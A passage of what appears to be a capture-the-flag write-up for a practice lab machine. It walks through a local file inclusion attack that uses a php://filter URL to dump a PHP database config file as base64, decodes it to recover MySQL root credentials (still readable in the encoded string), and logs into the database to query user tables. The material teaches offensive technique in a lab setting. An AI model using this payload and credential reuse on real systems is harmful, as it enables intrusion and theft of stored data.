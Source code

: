 It seems like it works! With that in mind, we can dump all the contents from this specific file by encoding it the base64 using `php://filter`. Note that we can use a `php://filter` to query database results, in this case we are querying the contents of __THIS SPECIFIC FILE__. It was a bit confusing for me to understand at first, however since there is a database connection occurring from this specific file we can assume that the credentials are being matched somewhere in `db.php`'s code.

`http://10.10.162.38/dev/index.html?view=php://filter/convert.base64-encode/resource=C:/xampp/htdocs/dev/db.php`
So to recap, we're doing the following in this URL:
1. Use the view parameter to start the LFI statement.
2. Use a PHP filter to convert all contents that we dump to base64.
3. Using the parameter `resource` to say that we want to dump all contents of `db.php` to base64.

![](/images/vulnlab/trusted-vl/f.jpg)

Looks as though the contents were dumped to the website, meaning we can decode this and see the real contents of `db.php`.
`PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkI[...snip...]Y29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4=`

From here, it's just a simple base64 decode in our terminal to find out the contents.
```
echo "PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIlN1cGVyU2VjdXJlTXlTUUxQYXNzdzByZDEzMzcuIjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQpOw0KDQppZiAoISRjb25uKSB7DQogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4=" | base64 -d
```

```
<?php 
$servername = "localhost";
$username = "root";
$password = "[...snip...]";

$conn = mysqli_connect($servername, $username, $password);

if (!$conn) {
  die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
?>
```

# MySQL Enumeration

If you remember from earlier, our NMAP scan told us earlier that the `MySQL` service was public facing. We can attempt to authenticate to it using the credentials we have to see what else we may have access to.
`mysql -h 10.10.162.38 -u 'root' -p`

This gives us access to the `MariaDB` database, to which we can look around for any credentials to the Active Directory instance.
Upon some enumerating, I found some credentials in the `news` database.
`select * from users;`
